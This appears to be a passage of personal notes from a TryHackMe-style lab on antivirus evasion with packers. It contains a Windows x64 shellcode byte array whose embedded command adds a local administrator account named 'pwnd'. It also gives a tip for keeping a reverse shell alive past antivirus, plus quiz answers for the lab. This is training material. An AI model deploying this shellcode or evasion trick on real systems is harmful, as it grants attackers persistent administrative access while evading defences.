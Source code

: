 ```bash
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,
0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,
0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,
0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,
0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,
0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,
0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x6e,0x65,0x74,
0x20,0x75,0x73,0x65,0x72,0x20,0x70,0x77,0x6e,0x64,0x20,0x50,
0x61,0x73,0x73,0x77,0x6f,0x72,0x64,0x33,0x32,0x31,0x20,0x2f,
0x61,0x64,0x64,0x3b,0x6e,0x65,0x74,0x20,0x6c,0x6f,0x63,0x61,
0x6c,0x67,0x72,0x6f,0x75,0x70,0x20,0x61,0x64,0x6d,0x69,0x6e,
0x69,0x73,0x74,0x72,0x61,0x74,0x6f,0x72,0x73,0x20,0x70,0x77,
0x6e,0x64,0x20,0x2f,0x61,0x64,0x64,0x00};

```

If detection isn't an issue, you can even use a simple trick. From your reverse shell, run **`cmd.exe`** again. The AV will detect your payload and kill the associated process, but not the new cmd.exe you just spawned.

While every single AV will behave differently, most of the time, there will be a similar way around them, so it's worth exploring any weird behaviors you notice while testing.

Answer the questions below:

Will packers help you obfuscate your malicious code to bypass AV solutions? (yea/nay)

yea

Will packers often unpack the original code in-memory before running it? (yea/nay)

yea

Are some packers detected as malicious by some AV solutions? (yea/nay)

yea

Follow the instructions to create a packed payload and upload it into the THM Antivirus Check at **`http://10.10.71.19/`**

Complete/NAN

[UnEncStagelessPayload.cs](Task%209%20Packers%2064e073a4ec524de1b4750bc0fcf281b1/UnEncStagelessPayload%20cs%2055610f64dfcf40a5ae1dea6a4cee0557.md)


# Task 10 Binders
